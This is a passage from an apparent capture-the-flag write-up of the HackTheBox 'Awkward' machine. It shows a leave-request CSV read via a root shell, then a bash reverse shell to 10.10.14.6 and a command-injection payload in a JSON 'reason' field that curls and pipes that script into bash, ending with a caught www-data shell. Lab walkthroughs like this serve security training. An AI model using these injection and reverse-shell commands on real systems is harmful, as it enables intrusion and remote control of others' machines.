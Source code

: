 With the root shell, I can even see the results in `leave_requests.cvs`:

```

root@awkward:/var/www/private# cat leave_requests.csv 
Leave Request Database,,,,
,,,,
HR System Username,Reason,Start Date,End Date,Approved
bean.hill,Taking a holiday in Japan,23/07/2022,29/07/2022,Yes
christine.wool,Need a break from Jackson,14/03/2022,21/03/2022,Yes
jackson.lightheart,Great uncle's goldfish funeral + ceremony,10/05/2022,10/06/2022,No
jackson.lightheart,Vegemite eating competition,12/12/2022,22/12/2022,No
christopher.jones,Donating blood,19/06/2022,23/06/2022,Yes
christopher.jones,Taking a holiday in Japan with Bean,29/07/2022,6/08/2022,Yes
bean.hill,Inevitable break from Chris after Japan,14/08/2022,29/08/2022,No
christopher.jones,0xdf was here!,today,tomorrow,Pending

```

“0xdf was here!” is the contents of `test`.

#### Shell

To get a shell, I’ll create a simple [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in a file called `shell`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

Now I’ll `curl` that into `bash` on Awkward:

```

oxdf@hacky$ curl http:/hat-valley.htb/api/submit-leave -H "Content-type: application/json" -d '{"reason": "$(curl http://10.10.14.6/shell|/bin/bash)", "start": "today", "end": "tomorrow"}' -b "token=$token"

```

This time it just hangs. At `nc`, there’s a shell as www-data:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.185 54006
bash: cannot set terminal process group (64281): Inappropriate ioctl for device
bash: no job control in this shell
www-data@awkward:~/hat-valley.htb$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
